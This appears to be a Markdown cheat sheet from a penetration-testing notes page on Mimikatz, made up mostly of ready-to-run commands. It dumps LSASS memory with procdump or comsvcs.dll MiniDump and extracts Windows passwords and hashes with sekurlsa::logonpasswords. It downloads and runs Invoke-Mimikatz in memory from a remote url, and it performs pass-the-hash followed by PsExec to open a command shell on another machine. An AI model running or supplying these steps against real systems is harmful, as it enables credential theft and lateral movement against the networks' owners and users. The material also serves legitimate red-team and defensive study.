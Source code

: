 ```yaml
---
layout: default
title: Mimikatz
tags:
    - certificates private keys
    - credentials
    - in memory
    - kerberos tickets
    - local security authority subsystem service
    - LSASS
    - pass-the-hash
    - passwords
    - procdump
    - windows
---
```

# Mimikatz
### Offline
#### Dump LSASS
```powershell
procdump.exe -ma lsass.exe <output path>  # use -r flag to avoid reading lsass by dumping a clone
.\rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump 624 <output path> full  # uses native comsvcs.dll
```
- Alternatively can use task manager (Processes > lsass.exe > Create Dump File)

#### Extracting Passwords
```shell
sekurlsa::minidump <dump path>
sekurlsa::logonpasswords
```

### On Target Machine
#### PowerShell Version ([Invoke-Mimikatz.ps1](https://github.com/clymb3r/PowerShell/blob/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1))
In-memory
```powershell
Invoke-WebRequest -UseBasicParsing <url> -Verbose
```

Save to disk
```powershell
Invoke-WebRequest -UseBasicParsing <url> -OutFile Invoke-Mimikatz.ps1 -Verbose
```

```powershell
Get-Help Invoke-Mimikatz
.\Invoke-Mimikatz -DumpCreds
Invoke-Mimikatz -ComputerName
```

#### Extracting Passwords
```shell
privilege:debug
sekurlsa::logonPasswords
```

#### Pass-the-Hash
```powershell
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm hash>  # Hash from previous password extraction
PsExec.exe \\<domain> cmd.exe  # Spawn cmd prompt on given domain
```